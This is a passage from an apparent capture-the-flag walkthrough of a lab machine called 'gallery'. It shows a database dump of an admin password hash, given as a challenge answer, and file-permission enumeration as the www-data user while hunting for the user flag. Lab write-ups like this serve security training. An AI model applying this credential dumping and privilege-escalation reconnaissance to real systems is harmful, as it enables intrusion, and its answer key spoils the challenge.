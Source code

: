 ```bash
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin   | admin  | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)

```
**Answer:** a228b12a08b6527e7978cbe5d914531c

**Question 4:** What's the user flag?
**Walkthrough:** To find the user flag let’s first see what users are in the `/home` directory.
```bash
www-data@gallery:/var/www/html/gallery$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 May 20  2021 .
drwxr-xr-x 23 root root 4096 Feb 12 21:42 ..
drwxr-xr-x  6 mike mike 4096 Aug 25  2021 mike
drwx------  4 root root 4096 May 20  2021 ubuntu
www-data@gallery:/var/www/html/gallery$ cd /home/mike && ls -la
total 44
drwxr-xr-x 6 mike mike 4096 Aug 25  2021 .
drwxr-xr-x 4 root root 4096 May 20  2021 ..
-rw------- 1 mike mike  135 May 24  2021 .bash_history
-rw-r--r-- 1 mike mike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike 3772 May 20  2021 .bashrc
drwx------ 3 mike mike 4096 May 20  2021 .gnupg
drwxrwxr-x 3 mike mike 4096 Aug 25  2021 .local
-rw-r--r-- 1 mike mike  807 Apr  4  2018 .profile
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

The user flag is in mike’s home directory but we cannot read it as `www-data`. We can search for files owned by mike to see if any that are readable and potentially interesting.
```bash
www-data@gallery:/home/mike$ find / -user mike -type f -exec ls -l {} \; 2>/dev/null
-rwx------ 1 mike mike 32 May 14  2021 /home/mike/user.txt
-rw-r--r-- 1 mike mike 3772 May 20  2021 /home/mike/.bashrc
-rw------- 1 mike mike 135 May 24  2021 /home/mike/.bash_history
-rw-r--r-- 1 mike mike 220 Apr  4  2018 /home/mike/.bash_logout
-rw-r--r-- 1 mike mike 807 Apr  4  2018 /home/mike/.profile
```
